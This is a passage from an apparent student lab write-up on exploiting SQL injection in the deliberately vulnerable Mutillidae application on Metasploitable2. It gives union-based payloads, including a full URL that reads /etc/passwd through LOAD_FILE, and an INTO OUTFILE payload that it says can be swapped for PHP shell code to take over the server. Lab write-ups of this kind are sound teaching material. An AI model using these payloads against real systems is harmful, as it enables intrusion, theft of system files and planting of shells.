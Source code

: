 
![28](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/862d31ff-0324-4986-8481-51c0bf5d4d46)

## Reading and writing files on the webserver:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![29](https://github.com/Nandhinijaya/sqlinjection/assets/121998147/5c46b2ba-2fe3-442a-b0f9-5d0d051ba5c4)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
